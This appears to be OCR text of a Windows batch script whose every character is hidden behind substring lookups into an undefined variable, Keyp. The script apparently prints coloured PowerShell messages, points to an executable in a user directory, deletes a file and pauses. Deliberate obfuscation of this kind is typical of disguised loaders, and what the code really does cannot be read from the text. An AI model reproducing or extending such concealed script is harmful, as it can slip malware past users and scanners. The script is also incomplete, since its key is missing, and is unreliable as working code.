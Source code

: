 %Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% %Keyp:~14,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~32,1%%Keyp:~61,1%-%Keyp:~49,1%%Keyp:~51,1%%Keyp:~13,1%%Keyp:~32,1% -%Keyp:~0,1%%Keyp:~51,1%%Keyp:~39,1%%Keyp:~61,1% %Keyp:~41,1%%Keyp:~61,1%%Keyp:~23,1% ** %Keyp:~31,1%%Keyp:~13,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1% %Keyp:~49,1%%Keyp:~58,1%%Keyp:~8,1%%Keyp:~61,1% %Keyp:~32,1%%Keyp:~51,1% %Keyp:~60,1%%Keyp:~38,1%%Keyp:~13,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~20,1%%Keyp:~20,1% %Keyp:~60,1%%Keyp:~32,1% %Keyp:~46,1%%Keyp:~27,1% %Keyp:~32,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~25,1%%Keyp:~13,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~8,1%%Keyp:~61,1%%Keyp:~13,1%. **
%%Keyp:~31,1%%Keyp:~48,1%%Keyp:~52,1%%Keyp:~41,1%%Keyp:~42,1%%Keyp:~41,1%%Keyp:~28,1%%Keyp:~26,1%%Keyp:~37,1%%Keyp:~34,1%%Keyp:~52,1%%\%Keyp:~4,1%%Keyp:~61,1%%Keyp:~13,1%%Keyp:~35,1%%Keyp:~32,1%%Keyp:~51,1%%Keyp:~40,1%\%Keyp:~54,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~60,1%%Keyp:~38,1%_%Keyp:~42,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~8,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1%_%Keyp:~48,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~8,1%%Keyp:~61,1%%Keyp:~39,1%\%Keyp:~13,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%\%Keyp:~26,1%%Keyp:~60,1%%Keyp:~23,1%%Keyp:~23,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~48,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%.%Keyp:~61,1%%Keyp:~47,1%%Keyp:~61,1%
%Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% %Keyp:~14,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~32,1%%Keyp:~61,1%-%Keyp:~49,1%%Keyp:~51,1%%Keyp:~13,1%%Keyp:~32,1% -%Keyp:~0,1%%Keyp:~51,1%%Keyp:~39,1%%Keyp:~61,1% %Keyp:~12,1%%Keyp:~20,1%%Keyp:~7,1%%Keyp:~61,1% %Keyp:~4,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~38,1%%Keyp:~20,1%%Keyp:~51,1%%Keyp:~58,1%%Keyp:~23,1%%Keyp:~61,1%%Keyp:~39,1% %Keyp:~26,1%%Keyp:~60,1%%Keyp:~23,1%%Keyp:~23,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~39,1% %Keyp:~22,1%%Keyp:~51,1%%Keyp:~38,1%%Keyp:~0,1%%Keyp:~60,1%%Keyp:~15,1%
%Keyp:~23,1%%Keyp:~61,1%%Keyp:~20,1% %%Keyp:~31,1%%Keyp:~48,1%%Keyp:~52,1%%Keyp:~41,1%%Keyp:~42,1%%Keyp:~41,1%%Keyp:~28,1%%Keyp:~26,1%%Keyp:~37,1%%Keyp:~34,1%%Keyp:~52,1%%\%Keyp:~4,1%%Keyp:~61,1%%Keyp:~13,1%%Keyp:~35,1%%Keyp:~32,1%%Keyp:~51,1%%Keyp:~40,1%\%Keyp:~54,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~60,1%%Keyp:~38,1%_%Keyp:~42,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~8,1%%Keyp:~58,1%%Keyp:~32,1%%Keyp:~61,1%_%Keyp:~48,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~8,1%%Keyp:~61,1%%Keyp:~39,1%\%Keyp:~13,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%\%Keyp:~13,1%%Keyp:~61,1%%Keyp:~32,1%%Keyp:~7,1%%Keyp:~40,1%.%Keyp:~46,1%%Keyp:~58,1%%Keyp:~32,1%
%Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% -%Keyp:~22,1%%Keyp:~51,1%%Keyp:~25,1%%Keyp:~25,1%%Keyp:~58,1%%Keyp:~38,1%%Keyp:~23,1% "%Keyp:~48,1%%Keyp:~32,1%%Keyp:~58,1%%Keyp:~39,1%%Keyp:~32,1%-%Keyp:~48,1%%Keyp:~20,1%%Keyp:~61,1%%Keyp:~61,1%%Keyp:~40,1% -%Keyp:~13,1% %Keyp:~2,1%"
%Keyp:~40,1%%Keyp:~51,1%%Keyp:~14,1%%Keyp:~61,1%%Keyp:~39,1%%Keyp:~13,1%%Keyp:~49,1%%Keyp:~61,1%%Keyp:~20,1%%Keyp:~20,1% %Keyp:~14,1%%Keyp:~39,1%%Keyp:~60,1%%Keyp:~32,1%%Keyp:~61,1%-%Keyp:~49,1%%Keyp:~51,1%%Keyp:~13,1%%Keyp:~32,1% -%Keyp:~0,1%%Keyp:~51,1%%Keyp:~39,1%%Keyp:~61,1% %Keyp:~59,1%%Keyp:~58,1%%Keyp:~15,1%%Keyp:~61,1%%Keyp:~38,1%%Keyp:~32,1%%Keyp:~58,1% --- %Keyp:~26,1%%Keyp:~60,1%%Keyp:~38,1%%Keyp:~60,1%%Keyp:~13,1%%Keyp:~49,1% ---




